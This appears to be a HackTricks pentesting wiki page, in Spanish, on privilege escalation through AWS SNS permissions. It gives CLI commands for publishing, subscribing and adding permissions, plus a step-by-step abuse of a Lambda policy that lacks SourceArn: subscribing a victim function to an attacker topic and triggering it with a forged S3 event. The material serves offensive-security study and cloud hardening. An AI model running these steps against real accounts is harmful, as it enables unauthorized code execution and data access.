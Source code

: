 # AWS - SNS Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

Para más información consulta:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### `sns:Publish`

Un atacante podría enviar mensajes maliciosos o no deseados al SNS topic, potencialmente provocando corrupción de datos, activando acciones no intencionadas o agotando recursos.
```bash
aws sns publish --topic-arn <value> --message <value>
```
**Impacto potencial**: Explotación de vulnerabilidades, corrupción de datos, acciones no intencionadas o agotamiento de recursos.

### `sns:Subscribe`

Un atacante podría suscribirse a un topic de SNS, potencialmente obteniendo acceso no autorizado a los mensajes o interrumpiendo el funcionamiento normal de las aplicaciones que dependen del topic.
```bash
aws sns subscribe --topic-arn <value> --protocol <value> --endpoint <value>
```
**Potential Impact**: Acceso no autorizado a mensajes (información sensible), interrupción del servicio para aplicaciones que dependen del topic afectado.

### `sns:AddPermission`

Un atacante podría otorgar a usuarios o servicios no autorizados acceso a un SNS topic, obteniendo potencialmente permisos adicionales.
```bash
aws sns add-permission --topic-arn <value> --label <value> --aws-account-id <value> --action-name <value>
```
**Impacto potencial**: Acceso no autorizado al topic, exposición de mensajes o manipulación del topic por usuarios o servicios no autorizados, interrupción del funcionamiento normal de aplicaciones que dependen del topic.


### Invocar una Lambda abusando de permisos comodín de SNS (sin `SourceArn`)

Si la política basada en recursos de una función Lambda permite que `sns.amazonaws.com` la invoque sin restringir el topic origen (`SourceArn`), cualquier topic de SNS (incluso en otra cuenta) puede suscribirse y activar la función. Un atacante con permisos básicos de SNS puede forzar a la Lambda a ejecutarse bajo su IAM role con entrada controlada por el atacante.

> [!TIP]
> TODO: ¿Esto realmente se puede hacer entre cuentas?

Precondiciones
- La política de la Lambda víctima contiene una declaración como la siguiente, SIN la condición `SourceArn`:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {"Service": "sns.amazonaws.com"},
"Action": "lambda:InvokeFunction"
// No Condition/SourceArn restriction here
}
]
}
```
Pasos de abuso (misma cuenta o entre cuentas)
```bash
# 1) Create a topic you control
ATTACKER_TOPIC_ARN=$(aws sns create-topic --name attacker-coerce --region us-east-1 --query TopicArn --output text)

# 2) Subscribe the victim Lambda to your topic
aws sns subscribe \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--protocol lambda \
--notification-endpoint arn:aws:lambda:us-east-1:<victim_acct_id>:function:<VictimFunctionName>

# 3) Publish an attacker-controlled message to trigger the Lambda
aws sns publish \
--region us-east-1 \
--topic-arn "$ATTACKER_TOPIC_ARN" \
--message '{"Records":[{"eventSource":"aws:s3","eventName":"ObjectCreated:Put","s3":{"bucket":{"name":"attacker-bkt"},"object":{"key":"payload.bin"}}}]}'
```
**Impacto potencial**: La Lambda víctima se ejecuta con su rol IAM, procesando entrada controlada por el atacante. Esto puede ser abusado para que la función realice acciones sensibles (p. ej., escribir en S3, acceder a secretos, modificar recursos) dependiendo de sus permisos.


{{#include ../../../../banners/hacktricks-training.md}}
